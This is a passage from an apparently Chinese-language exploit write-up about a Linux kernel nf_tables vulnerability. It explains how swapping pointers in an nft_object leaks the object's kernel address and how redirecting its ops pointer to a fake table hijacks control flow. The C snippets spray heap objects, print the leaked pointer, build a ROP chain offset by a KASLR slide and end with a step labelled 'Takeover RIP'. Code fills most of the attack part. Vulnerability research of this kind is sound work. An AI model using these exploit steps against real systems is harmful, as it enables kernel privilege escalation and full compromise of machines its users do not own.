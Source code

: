 ![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCN0894z7ZxrG2WgnbLL21kSQRRNciaziaLhP0fVhCxuygAI6Jf4RD6t7AHdRH26IfEtiafGAbz2nmBRw/640?wx_fmt=png&from=appmsg "")  
  
简而言之，这意味着如果我们将nft_object  
 的udata  
 指针与它自己的list.next  
 指针交换，我们应该能够读取一个指向nft_object  
 的list_head  
 的指针，这也是nft_object  
 本身的起始位置。**注意：**  
 这是一个新颖的小技巧。  
```
[...]
    // Leak nft_object ptr using table linked list
    fake_obj[8] = 8;           // ulen = 8
    fake_obj[9] = fake_obj[0]; // udata = list->next
    deludata_spray(nl, 2, 1);
    wait_destroyer();
    udata_spray(nl, 0xe8, 3, 1, fake_obj);

    get_obj(nl, "spray-0", true);
    printf("[*] nft_object ptr: 0x%lx\n", obj_ptr);
[...]
```  
  
为了劫持控制流，我们可以再次使用nft_object  
。nft_object  
 结构体有一个指向函数指针表的ops  
 指针。我们可以将ops  
 指针与udata  
 指针交换，从而控制指针表。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCN0894z7ZxrG2WgnbLL21kSP1SMXxAM7Nt3vWEutsjrAfoTicLfZMKGlXRvp5gRAf2nGVXd19g94DA/640?wx_fmt=png&from=appmsg "")  
```
[...]
    // Fake ops
    uint64_t *rop = calloc(29, sizeof(uint64_t));
    rop[0] = kaslr_slide + 0xffffffff81988647; // push rsi; jmp qword ptr [rsi + 0x39];
    rop[2] = kaslr_slide + NFT_CT_EXPECT_OBJ_TYPE;
[...]
    // Send ROP in object udata
    del_obj(nl, "spray-0");
    wait_destroyer();
    obj_spray(nl, 1, 1, rop, 0xb8);
    fake_obj = (uint64_t *)getudata(nl, "spray-3");
    DumpHex(fake_obj, 0xe8);
    uint64_t rop_addr = fake_obj[9]; // udata ptr
    printf("[*] ROP addr: 0x%lx\n", rop_addr);

    // Point to fake ops
    fake_obj[16] = rop_addr - 0x20; // Point ops to fake ptr table
[...]
    // Write ROP
    puts("[*] Write ROP");
    deludata_spray(nl, 3, 1);
    wait_destroyer();
    udata_spray(nl, 0xe8, 4, 1, fake_obj);

    // Takeover RIP
    puts("[*] Takeover RIP");
    dump_obj(nl, "spray-1");
[...]
```  
  